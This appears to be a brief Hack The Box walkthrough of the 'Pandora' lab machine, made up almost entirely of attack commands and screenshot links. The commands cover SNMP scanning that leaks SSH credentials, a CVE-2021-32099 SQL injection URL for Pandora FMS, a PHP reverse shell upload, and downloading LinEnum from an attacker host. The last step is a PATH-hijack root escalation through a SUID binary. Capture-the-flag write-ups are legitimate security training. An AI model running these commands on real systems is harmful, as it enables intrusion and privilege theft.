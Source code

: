 ```
nmap -sU -T5 10.10.11.136
snmpwalk -v 1 -c public 10.10.11.136
ssh daniel@10.10.11.136
ssh -D 9090 daniel@10.10.11.136
http://localhost/pandora_console/include/chart_generator.php?session_id=a%27%20UNION%20SELECT%20%27a%27,1,%27id_usuario|s:5:%22admin%22;%27%20as%20data%20FROM%20tsessions_php%20WHERE%20%271%27=%271
Upload - php-reverse-shell.php
./LinEnum.sh
cat .ssh/id_rsa.pub
SUID - /usr/bin/pandora_backup
```


```
nmap -sS -sC -sV -T5 -Pn 10.10.11.136
```
![image](https://github.com/regarmulia/HTB/assets/33616880/783c0a61-c2ae-4652-a77c-8c615fa61310)


```
nmap -sU -T5 10.10.11.136
```
![image](https://github.com/regarmulia/HTB/assets/33616880/70bf96b2-f539-4e14-a866-3e1bf2fc1211)


```
snmpwalk -v 1 -c public 10.10.11.136
-u daniel -p HotelBabylon23
```
![image](https://github.com/regarmulia/HTB/assets/33616880/120ed051-63da-4d3b-927a-c419509d82c3)
![image](https://github.com/regarmulia/HTB/assets/33616880/38b03b03-c72d-4381-897e-14f64582dd2a)


```
ssh daniel@10.10.11.136
```
![image](https://github.com/regarmulia/HTB/assets/33616880/5f28a9f8-4695-4394-84c3-145547d2a320)
![image](https://github.com/regarmulia/HTB/assets/33616880/d04e878e-cdee-49f6-a281-434d4dcfccb4)


```
ssh -D 9090 daniel@10.10.11.136
```
![image](https://github.com/regarmulia/HTB/assets/33616880/857388f7-35c5-4472-9db5-3d88c6b8b6e5)
![image](https://github.com/regarmulia/HTB/assets/33616880/eba91bdb-2bca-4444-b4c9-542de52b1a69)
![image](https://github.com/regarmulia/HTB/assets/33616880/5bcddd33-ecda-4274-b889-0a4c003fd27a)


```
https://github.com/akr3ch/CVE-2021-32099
http://localhost/pandora_console/include/chart_generator.php?session_id=a%27%20UNION%20SELECT%20%27a%27,1,%27id_usuario|s:5:%22admin%22;%27%20as%20data%20FROM%20tsessions_php%20WHERE%20%271%27=%271
```
![image](https://github.com/regarmulia/HTB/assets/33616880/22da2deb-1455-46d3-8600-243ffca070fc)


```
https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php
```
![image](https://github.com/regarmulia/HTB/assets/33616880/6991e767-eb7a-414c-8e21-c3a28fa6f48e)
![image](https://github.com/regarmulia/HTB/assets/33616880/51e9ef10-a301-41e7-9e9f-eb9027136b49)
![image](https://github.com/regarmulia/HTB/assets/33616880/d490962d-28bd-41a9-be4f-4c217c931446)


```
git clone https://github.com/rebootuser/LinEnum.git
python3 -m http.server 80
wget 10.10.14.2/LinEnum.sh
./LinEnum.sh
```
![image](https://github.com/regarmulia/HTB/assets/33616880/0cc90b26-5b28-45a4-9e72-783e13039117)
![image](https://github.com/regarmulia/HTB/assets/33616880/84ea311d-860d-44de-bb27-bd6f7c761cf5)


```
cat .ssh/id_rsa.pub
```
![image](https://github.com/regarmulia/HTB/assets/33616880/1921f65b-f11c-483e-af92-1ca195986c1b)


```
/usr/bin/pandora_backup
echo "/bin/bash" > /tmp/tar
chmod +x /tmp/tar
echo $PATH
export PATH=/tmp:$PATH
echo $PATH
/usr/bin/pandora_backup
```
![image](https://github.com/regarmulia/HTB/assets/33616880/0c498fe5-d909-4f75-9df4-5f1701d14f48)
![image](https://github.com/regarmulia/HTB/assets/33616880/6e321060-68b7-45c0-aee4-6eac149b3465)



